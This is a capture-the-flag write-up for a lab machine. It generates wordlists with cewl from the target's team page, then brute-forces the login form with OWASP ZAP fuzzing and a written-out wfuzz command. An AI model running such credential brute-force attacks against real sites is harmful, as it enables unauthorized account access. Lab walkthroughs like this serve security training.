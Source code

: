 # baby, it's CeWLd outside

## Solution
- Hit "Start Machine" and connect at http://IP and notice the login page at http://IP/login.php
- Generate a username list with cewl considering the team members at http://IP/team.php:
```bash
cewl -d 0 -m 5 -w usernames.txt http://IP/team.php --lowercase
```
- Generate a password list with cewl:
```bash
cewl -d 2 -m 5 -w passwords.txt http://IP --with-numbers
```

- Open Owasp ZAP, capture the login request and run a fuzz attack on both "username" and "password" parameters using the wordlists previously generated.

![Alt text](image.png)

- Sort the fuzzing considering the "Code" and notice a 302 response.

![Alt text](image-2.png)

- Login and read the flag from the email.

![Alt text](image-3.png)

- wfuzz can also be used to brute force the login:
```bash
wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://IP/login.php -d "username=FUZZ&password=FUZ2Z"
```
